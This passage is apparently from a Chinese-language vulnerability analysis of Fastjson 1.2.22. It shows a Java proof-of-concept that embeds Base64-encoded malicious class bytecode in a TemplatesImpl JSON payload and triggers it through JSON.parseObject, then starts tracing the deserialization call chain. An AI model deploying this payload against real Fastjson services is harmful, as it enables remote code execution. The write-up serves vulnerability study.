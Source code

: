         e.printStackTrace();
    }

    String result = Base64.encodeBase64String(bos.toByteArray());

    return result;
}

public static void bad_method() {
    ParserConfig config = new ParserConfig();
    final String fileSeparator = System.getProperty("file.separator");
    String evil_path = "D:\\Java-App\\fastjson-1.2.22\\target\\classes\\ka1n4t\\poc\\evilClass1.class";
    String evil_code = readClass(evil_path);

    final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

    String text1 = "{\"@type\":\"" + NASTY_CLASS +
            "\",\"_bytecodes\":[\""+evil_code+"\"]," +
            "'_name':'a.b'," +
            "'_tfactory':{ }," +
            "\"_outputProperties\":{ }}\n";
    System.out.println(text1);
    Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
}

public static void main(String args[]) {
    bad_method();
} 
``` `}` 
```

核心部分：

```
String text1 = "{\"@type\":\"" + NASTY_CLASS +
                "\",\"_bytecodes\":[\""+evil_code+"\"]," +
                "'_name':'a.b'," +
                "'_tfactory':{ }," +
                "\"_outputProperties\":{ }}\n"; `Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);` 
```

_bytecodes是经过base64编码的evilClass1的字节码文件，NASTY_CLASS是TemplatesImpl类。总结一下这个payload，利用JSON.parseObject反序列化TemplatesImpl类，其中_bytecodes属性是经过base64编码的恶意类字节码文件。

#### 调试分析

下面来分析一下反序列化TemplatesImpl的调用链，首先经过java的反射机制，到达TemplatesImpl类，调用其getOutputProperties()方法：

![image](../img/801193b5bd2ec3f6d9a7119b2b7b8463.png)
